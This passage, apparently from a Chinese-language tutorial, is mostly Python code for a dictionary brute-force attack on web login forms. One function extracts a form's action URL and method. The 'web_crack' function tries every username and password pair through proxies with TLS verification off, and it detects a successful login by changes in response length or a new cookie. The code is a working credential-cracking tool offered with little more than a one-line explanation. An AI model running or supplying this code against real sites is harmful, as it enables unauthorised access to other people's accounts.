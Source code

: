 ```
def get_post_get_page(content,url):
    form_action = str(content).split('\n')[0]
    # print form_action
    soup = BS(form_action, "lxml")
    url_path = ''
    for x in re.findall(".*?/",url):
        url_path =  url_path+x

    action_url = soup.form['action']
    if str(action_url).startswith('http'):
        path = action_url
    else:
        path = url_path+soup.form['action']
    method = soup.form['method']
    return path,method
    
```

3、在获取相关参数和path后调用破解函数web_crack进行密码破解

```
def web_crack(method,path,data):
    conn =  requests.session()
    res0 = conn.get(path, headers=requests_headers(), allow_redirects=False,timeout=10,proxies = requests_proxies())
    error_length,cookie_error_flag,dynamic_req_len = get_error_length(conn,method,path,data)
    if dynamic_req_len:
        return False,False

    num = 0
    success_flag = 0
    dic_all = len(USERNAME_DIC)*len(PASSWORD_DIC)
    for user_name in USERNAME_DIC:
        for pass_word in PASSWORD_DIC:
            data1 = data
            # print data1
            user_name = user_name.strip()
            pass_word = pass_word.strip()
            pass_word = str(pass_word.replace('{user}', user_name))
            data2 = str(data1.replace('%7Buser_name%7D', user_name))
            data2 = str(data2.replace('%7Bpass_word%7D', pass_word))

            num = num+1

            res = conn.post(url = path,data = data2, headers=requests_headers(), timeout=10,verify=False,allow_redirects=False,proxies = requests_proxies())
            cur_length = len(res.content+str(res.headers))

            if cookie_error_flag:  # cookie_error_flag表示每个数据包中都有cookie
                if cur_length!=error_length:
                    success_flag =1
                    return user_name,pass_word
            elif 'Set-Cookie' in res.headers and cur_length!=error_length:
                success_flag =1
                return user_name,pass_word
    if success_flag == 0:
        return False,False
        
```
